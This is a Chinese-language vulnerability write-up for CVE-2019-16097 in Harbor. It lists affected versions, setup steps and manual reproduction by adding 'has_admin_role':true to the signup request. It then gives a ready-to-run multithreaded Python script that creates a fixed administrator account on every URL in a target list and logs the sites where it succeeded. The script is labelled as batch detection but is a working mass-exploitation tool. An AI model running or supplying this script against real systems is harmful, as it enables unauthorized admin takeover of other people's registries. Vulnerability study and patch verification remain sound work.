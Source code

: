 ```yaml
---
title: 'Harbor任意管理员注册漏洞'
date: Mon, 07 Sep 2020 13:32:33 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 影响版本

Harbor 1.7.0版本至1.8.2版本

### 不受影响版本

Harbor>= 1.7.6

Harbor>= 1.8.3

### 复现之环境准备

1.Cenos7安装好docker和docker-compose 2.下载并安装harbor1.8.1在线安装版本

```
wget https://storage.googleapis.com/harbor-releases/release-1.8.0/harbor-online-installer-v1.8.1.tgz

tar xvf harbor-online-installer-v1.8.0.tgz

cd harbor

vi harbor.yml
```

修改hostname为安装Harbor机器的IP地址。 ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/cve-2019-16097_1.png) 安装harbor ./install.sh

### 漏洞复现

注册一个Harbor帐号，填写密码时注意要符合规范 ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/cve-2019-16097_2.png) 对注册信息进行抓包修改，在post数据后面添加”has\_admin\_role”:true![](https://www.bylibrary.cn/wp-content/uploads/2020/09/cve-2019-16097_3.png) 查看\[Response\]，返回201,说明写入成功。 使用admin帐号进入后发现，已经成功写入帐号，并且为管理员权限。![](https://www.bylibrary.cn/wp-content/uploads/2020/09/cve-2019-16097_5.png)

### 批量利用poc

```
import requests
import threading
import logging

data='{"username":"biubiubiu","email":"biubiubiu11@qq.com","realname":"biubiu1biu","password":"Aa111111","comment":"biubiubiu","has_admin_role":true}'

headers={"Content-Type": "application/json"}

def poc(url):
    pwn_url=url+"/api/users"
    payload=data
    try:
        r=requests.post(pwn_url, data=payload,headers=headers,timeout=10)
        print(pwn_url)
        print(r.status_code)
        if r.status_code == 201:
            print("\n\n you has created a user,username=biubiubiu,password=Aa111111")
            f.write(url+"       The URL has created a user,username=biubiubiu,password=Aa111111")
        else:
            print("The vulnerability does not exist on the website or the account name has been written")

    except Exception as e:
        logging.warning(pwn_url)
        print(e)

if __name__ == '__main__':
    print ("this is a CVE-2019-16097 poc")
    print("more cve-2019-16097 info welcome to https://www.lstazl.com")
    f=open("results.txt","a")
    url_list=[i.replace("\n","") for i in open("urls.txt","r").readlines()]
    for url in url_list:
        threading.Thread(target=poc,args=(url,)).start()
        while 1:
            if (len(threading.enumerate())<50):
                break
```

1.在urls.txt中添加你要检测的url

2.python3环境下运行cve-2019-16097脚本 python3 cve-2019-16097.py

3.批量检测完成后再results中查看成功写入账号的url。